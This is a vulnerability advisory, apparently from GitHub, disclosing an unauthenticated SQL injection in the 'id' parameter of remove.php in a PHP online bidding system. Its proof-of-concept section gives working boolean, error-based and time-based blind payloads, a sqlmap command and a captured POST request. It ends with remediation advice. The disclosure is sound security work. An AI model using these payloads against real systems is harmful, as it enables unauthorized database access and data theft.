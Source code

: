 # ONLINE BIDDING SYSTEM Project V1.0 remove.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- ONLINE BIDDING SYSTEM

## Vendor Homepage

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

 - Chenguang Wang-GuangZhou University
 - Zhihong Tian-GuangZhou University
 - Chenguang Wang-Zhihong Tian-GuangZhou University
## VERSION(S)

- V1.0

## Software Link

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'remove.php' file of the 'ONLINE BIDDING SYSTEM' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "ONLINE BIDDING SYSTEM", discovered a critical SQL injection vulnerability in the "remove.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based
- time-based blind
- boolean-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 4237=(SELECT (CASE WHEN (4237=4237) THEN 4237 ELSE (SELECT 5417 UNION SELECT 1249) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x71706b6271,(SELECT (ELT(6564=6564,1))),0x7162627171),6564)-- FIiT
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: id=1' OR (SELECT 9221 FROM (SELECT(SLEEP(5)))XmQF)-- oabl
    Vector: OR (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250914142014214](img/image-20250914142014214.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /administrator/remove.php HTTP/1.1
Host: 10.151.167.210:8886
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.151.167.210:8886
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.167.210:8886/administrator/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive

id=1*
```

# Attack results

![image-20250914142034104](img/image-20250914142034104.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.